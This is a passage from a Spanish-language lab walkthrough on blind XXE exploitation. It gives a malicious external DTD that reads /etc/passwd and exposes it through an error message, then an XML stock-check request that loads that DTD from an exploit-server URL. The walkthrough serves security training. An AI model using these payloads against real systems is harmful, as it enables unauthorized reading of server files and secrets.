 Podemos apreciar lo siguiente:

```xml

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///archivoinexistente/%file;'>">
%eval;
%exfil;

```

En la primera línea estamos definiendo la entidad **file** desde un DTD externo, estamos tomando el archivo **/etc/passwd**.

En la segunda línea estamos declarando otra entidad llamada **eval**, la cual dentro de su definición de valor estamos definiendo una sub entidad llamada **exfil**, recuerda que usamos los caracteres **&#x25;** en lugar del %, ya que en sub entidades suele dar error si ponemos el símbolo en formato normal y no en hexadecimal. Y esta sub entidad va a contener la llamada a un archivo que no existe, pero al final estamos llamando a la entidad **file**, que como sabemos contiene el archivo que nos interesa.

Por último llamamos a las entidades en orden.

Y una vez configurado nuestro exploit, en la parte de arriba nos darán la URL, esta URL contiene nuestras instrucciones XML maliciosas.

Ahora en la petición interceptada lo que haremos será que haremos la petición hacia la URL que nos ha dado en donde creamos el exploit:

![passwd](/assets/images/LabsXXE/lab6/passwd.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-0a8500d703e64cd8803d6bac01df0023.exploit-server.net/exploit"> %xxe; ]>
	<stockCheck>
		<productId>
			6
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```
